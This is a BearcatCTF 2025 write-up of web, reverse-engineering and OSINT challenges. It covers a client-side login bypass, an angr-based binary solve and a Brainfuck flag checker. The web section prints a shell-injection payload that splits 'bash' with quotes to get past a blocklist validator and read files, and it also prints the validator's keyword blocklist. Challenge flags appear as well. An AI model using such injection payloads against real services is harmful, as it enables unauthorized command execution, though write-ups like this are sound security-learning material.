 ```yaml
---
title: "BearcatCTF 2025 Writeups"
date: 2025-02-02T19:49:20.529Z
draft: true
author: michael
tags: [web, rev, osint]
---
```


# Web

## global-redirect: 100

> A new "world-class" website is claiming to have top-tier security worthy of an international stage. Unfortunately for them, their defenses are far from impressive. Show how easy it is to navigate their weaknesses and gain admin access.
>
> http://chal.bearcatctf.io:39724

This challenge presents us with a login page.
First course of action is to look at the source.
We see this Javascript:

```js
function loginAuthenticate(){
    var password = document.getElementById("password");
    var hash = sjcl.hash.sha256.hash(password);
    var hexRepresentation = sjcl.codec.hex.fromBits(hash);
    if (hexRepresentation == "2a70282a868c0ca9e6fe5bb5cf2ac2ea6b523062102bada26fb87091d511e3f1"){
        alert("welcome Home Admin");
        window.location = "./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7";
    }else{
        alert("Incorrect Password. Please Try Again");
    }
    alert(hash);
}
```

Great, we can just bypass the authentication and go directly to the redirect!
Navigating to http://chal.bearcatctf.io:39724/0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7
gives us the flag: `BCCTF{T1ck3t_t0_0wn3rsh1p!}`.

## unhealthy 2 the sequel: 500

> It seems that some people couldn't wait for me to finish before they started hacking. Well now I have a brand new extra-secure firewall in place! Have fun with that!
>
> http://chal.bearcatctf.io:30812

We are greeted with a landing page that says "Under development".

This time, the `robots.txt` hints to us that we need to check: http://chal.bearcatctf.io:30812/health-check.
This page seems to ask us for an IP and returns an output that suspiciously looks like the CLI output from `ping`:

```
Health response: PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=255 time=0.017 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
```

This prompted me to try shell injection.
After some trial and error, I discovered that `127.0.0.1; ba""sh -c 'ls'` worked.
Here's the app.py code:

```py
splits = ['||','&&',';','&','|','<','>']
def validate(cmd : str):
    if '$(' in cmd: return False
    if '\\' in cmd: return False
    if cmd.count('`') > 1: return False
    if 'IFS' in cmd: return False
    if 'flag.txt' in cmd: return False
    parts = [cmd]
    for s in splits:
        nparts = []
        for l in [p.split(s) for p in parts]:
            nparts += l
        parts = nparts
    parts = [p.strip() for p in parts]
    for p in parts:
        c = p.split()[0]
        if run(['which',c],capture_output=True).stdout:
            return False
    return True
```

It seems like as long as all of our bash commands are valid under `which`, we're free to go ahead and run it.
I also noticed `flag.txt` is explicitly disallowed.
I found `flag.txt` lying in `/`.

Now, I enter the payload: `127.0.0.1; ba""sh -c 'cat /*.txt | base64'`, which returns the flag: `BCCTF{M4yb3_!_sH0uld_jus7_f011ow_b3s7_pr4ac7ic3s}`

# Rev

## Say Cheese: 150


> ChatGPT made this challenge, I think it has a lot of holes...... much like a certain type of food.
>
> <a href={cheese_py}>cheese.py</a>

Pretty straightforward to reverse; I even asked ChatGPT to reverse it: https://chatgpt.com/share/679fcf7e-87bc-8007-8f97-d9d5e5761a59.

## Easy Encrypt: 300


> RE is fun but these binary things are so weird!
>
> <a href={easy}>easy</a>

First, let's run the binary:

```
❯ ./easy                                             
I dropped my flag somewhere! Can you find it for me? 
asdf
Hmmm... No that isn't right at all.
```

I honestly did not try to look into how this binary worked, because I wanted to get some experience with angr.

I hadn't used it before, and there were some troubles with getting it to work, but it finally worked just with `simgr.run()` and checking the `posix.dumps` to see if the win message was there.
Then I just crunched the solver on all the constraints gathered along the way.

```
0x1477                                                                                             
0x147b, 0x148c                                                                                     
0x10b0, 0x10b0                                                                                     
0x180a60, 0x180a60                                                                                 
0x148a, 0x149b                                                                                     
0x149b, 0x14b7                                                                                     
0x14b7, 0x400050                                                                                   
0x400050, 0x400050                                                                                 
0x400050                                                                                           
                                                                                                   
<SimulationManager with 3 deadended>                                                               
b"I dropped my flag somewhere! Can you find it for me?\nHmmm... No that isn't right at all.\n"     
b"I dropped my flag somewhere! Can you find it for me?\nHmmm... No that isn't right at all.\n"     
b'BCCTF{7H47_w4snt_s0_H4rD}\x01\n'                                                                 
b'I dropped my flag somewhere! Can you find it for me?\nThere it is!\n'                            
```


My solve script can be found <a href={solve_easy_py}>here</a>.

## Shimbles the E-L-F: 450


> Shimbles the ELF has encrpyted your data, and wants you to suffer. Show Shimbles humans are not to be trifiled with.
>
> Hint: Look into the decryption cycle super close, the key is hidden behind two layers of bit rotatation and obfuscation.
>
> <a href={Shimbles_the_elf}>Shimbles-the-elf</a>

Again, disregarded the hint and used angr, with surprisingly few modifications from Easy Encrypt.

```
❯ python solve_shimbles.py                         
<SimulationManager with 1 active, 1 found>         
<SimState @ 0x14f2>                                
b'elfmagic\n'                                      
```


My solve script can be found <a href={solve_shimbles_py}>here</a>.

## Turing Approved: 600


> I wrote a flag verification program for this challenge so when you find the flag, you can confirm it's correct! Aren't I just the kindest?
>
> NOT ALL ONLINE COMPILERS WORK
>
> <a href={verificationProgram}>verificationProgram</a>

This verification program is a Brainfuck program.
I converted the brainfuck to Python using [this tool](https://github.com/philippwindischhofer/Brainfuck2Python).
Then, I printed out the state of the tape right after all of the inputs had been taken.
I observed that the flag was lying directly in memory, although on an offset.

Taking each 3rd byte, you get `BCCTF{blame_the_swiss}`.

# Osint

## Been Touring the Arctic: 150


> A friend of mine said that if I put this file into Google Earth, it'll bring me to his favorite animal from the rainforests of Southeast Asia. I'll take his word for it. The flag is the animal's scientific name, with an underscore instead of a space.
>
> For example: `BCCTF{scientific_name}`
>
> <a href={animal_kml}>animal.kml</a>